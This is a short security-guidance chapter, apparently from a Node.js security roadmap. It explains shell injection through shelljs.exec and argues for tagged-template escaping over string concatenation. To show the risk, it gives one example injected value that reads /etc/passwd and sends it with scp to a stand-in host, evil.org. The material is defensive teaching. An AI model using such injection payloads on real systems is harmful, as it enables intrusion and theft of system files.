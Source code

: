# Shell injection

Threats: [SHP][]

The [`shelljs`][] module allows access to the system shell.  We focus
on `shelljs`, but similar arguments apply to builtins like
[`child_process.spawn(cmd, { shell: ... })`][cp.spawn] and similar
modules.

`shelljs` has some nice programmatic APIs for common shell commands
that escape arguments.

It also provides `shell.exec` which allows full access to the shell
including interpretation of shell meta characters.

Solving [shell injection][SHP] is a much harder problem than query
injection since shell scripts tend to call other shell scripts, so
properly escaping arguments to one script doesn't help if the script
sloppily composes a sub-shell.  The problem of tools that trust their
inputs is not limited to shell scripts: see discussion of image decoders
in [BOF][].  The [shell grammar][] has more layers of interpretation than
the SQL grammar.

We can do much better though.

```js
shelljs.exec("executable '" + x + "'")
```

is much more problematic than either of

```js
shelljs.exec`executable ${x}`

shelljs.exec`executable "${x}"`
```

The latter two know which strings come from the developer:
`["executable "]`, and which are inline expressions: `x`.
By properly escaping `x` we prevent a single
point of failure where an attacker who can cause

```js
x = " '; scp /etc/passwd evil@evil.org/; echo ' ";
```

causes execution of the following script

```js
executable ' '; scp /etc/passwd evil@evil.org/; echo ' '
```

The [accompanying example code][sh-code] includes a tag
implementation for `sh` and `bash` that recognizes nesting
contexts including double and single quoted strings, *heredoc*
streams, and sub-shells like `$(...)` and <code>&#96;...&#96;</code>.

[shell grammar]: http://pubs.opengroup.org/onlinepubs/9699919799/utilities/V3_chap02.html#tag_18_10
[`shelljs`]: https://www.npmjs.com/package/shelljs
[cp.spawn]: https://nodejs.org/api/child_process.html#child_process_child_process_spawn_command_args_options
[SHP]: ../chapter-1/threat-SHP.md
[BOF]: ../chapter-1/threat-BOF.md
[sh-code]: https://github.com/google/node-sec-roadmap/tree/master/chapter-7/examples/sh

